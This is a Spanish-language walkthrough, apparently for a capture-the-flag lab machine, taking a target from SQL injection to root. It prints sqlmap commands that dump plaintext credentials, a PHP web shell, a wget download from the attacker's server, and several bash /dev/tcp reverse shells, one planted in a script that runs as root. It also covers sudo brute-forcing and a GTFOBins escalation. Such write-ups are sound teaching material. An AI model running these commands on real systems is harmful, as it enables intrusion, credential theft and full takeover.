







# INTRUSIÓN 

Iniciamos haciendo un escaneo de nmap con el siguiente comando "nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2"




Vemos que el puerto 80 y 22 están abiertos, así que exploraremos el puerto 80.

Puerto 80:



Lo mas interesante que vemos es el botón de login, así que lo presionamos y nos redirecciona a un panel de login. 

Luego de intentar con credenciales tipicas como "admin:admin", "root:root" y ver que no funcionan intentamos poner una comilla para ver si es vulnerable a inyección sql. Al hacerlo comprobamos que es vulnerable así que podemos proceder a usar sqlmap.

"sqlmap -u "http://172.17.0.2/login_page/index.php" --forms --batch "

sqlmap encuentra lo siguiente:



Ahora vamos a listar las bases de datos con "sqlmap -u "http://172.17.0.2/login_page/index.php" --forms --batch --dbs" nos encuentra una llamada 'users', luego vemos las tablas de esa base de datos con "sqlmap -u "http://172.17.0.2/login_page/index.php" --forms --batch -D users --tables" y nos muestra una tabla llamada 'usuarios'. Ahora veremos que contiene con "sqlmap -u "http://172.17.0.2/login_page/index.php" --forms --batch -D users -T usuarios --dump". Nos encuentra tres usuarios y vemos que sus contraseñas estan guardadas de manera insegura en texto.



Ahora pruebo en el login uno por uno y el mas interesante es el usuario 'joe' que tiene un panel para ejecutar codigo de python. Lo primero que se me ocurre es subir un archivo .php que nos permita enviarnos una reverse shell. Pero primero debemos crearnos la reverse shell en nuestra maquina local con el siguiente codigo en su interior:

```php
<?php
      system($_GET['cmd']);
?>
```

Abriremos un servidor de python con "python3 -m http.server 9090" y  luego escribiremos el siguiente codigo:

```python
import os

os.system("wget nuestraip:9090/shell.php") 
```

vemos si se creó con éxito usando 

```python
import os
os.system("ls")
```

Al ver que se creó con éxito usamos el mismo código pero reemplazando 'ls' por 'chmod +x shell.php'. Ahora intentamos entrar desde el navegador y agregaremos lo siguiente en la barra de búsqueda para ver si funciona el script; '?cmd=whoami'. Comprobamos que funciona y ya nos podemos enviar una reverse shell a nuestra ip escuchando con netcat. Para hacerlo ponemos en el terminal:

```bash
nc -nlvp 443
```

y en la barra de búsqueda en vez de 'whoami' ponemos:

```bash
bash -c 'bash -i >%26 /dev/tcp/(nuestra ip)/443 0>%261'
```

y recibiremos la reverse shell.

# TRATAMIENTO DE LA TTY

para poder quedarnos con un terminal cómodo hacemos lo siguiente:

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg 
	reset xterm
export TERM=xterm && export SHELL=bash
```

# ESCALADA DE PRIVILEGIOS 

Si vamos al directorio '/tmp' podemos ver un archivo llamado '.hidden_text.txt', vemos su interior y encontramos una mensaje para "martin" con una lista de trucos favoritas, supongo que esta el usuario "martin" pero al ver el archivo "passwd" veo que solo existe 'joe' y 'luciano'. Ahora para probar las contraseñas podemos usar el siguiente script [Sudo_BruteForce](https://github.com/Maalfer/Sudo_BruteForce) y para probar las contraseñas nos las metemos en un .txt en nuestra maquina local borrando el mensaje para martin y pasamos todas las letras a minuscula con :

```bash
tr '[:upper:]' '[:lower:]' < archivo.txt > archivo_minusculas.txt

```

una vez que lo tenemos en minusculas nos lo pasamos a la maquina victima e intentamos usarlo con el usuario joe. Nos encuentra la que contraseña de joe es "chittychittybangbang" asique ahora podemos escalar al usuario joe con su.

# JOE

Como tenemos la contraseña de joe podemos ejecutar sudo -l para ver si podemos ejecutar algo con sudo 



Vemos que lo unico que podemos ejecutar es "/bin/posh" como el usuario "luciano". Luego de buscar en [gtfobins](https://gtfobins.github.io/gtfobins/posh/#sudo) vemos que se puede escalar con "posh" usando:

```bash
sudo -u luciano posh
```

# LUCIANO

Ya en el perfil de luciano ponemos "bash" para tener un terminal mas comodo, y nuevamente "sudo -l". Vemos que luciano puede ejecutar como root lo siguiente:



Vamos al path del script usando "cd" y vemos que contiene. Al fijarnos vemos que parece tener un script para enviar una reverse shell, por lo que intentaremos modificarlo. Pero como no existe el binario nano ni vim tendremos que hacerlo con el comando "echo" de la siguiente manera:

```bash
echo -e '#!/bin/bash\n\nbash -c '"'"'exec 5<>/dev/tcp/(nuestra ip)/443; cat <&5 | bash >&5 2>&5'"'"'' > script.sh
```

Ya solo nos queda ponernos en escucha con netcat y ejecutar el script como root y listo.



Ya somos root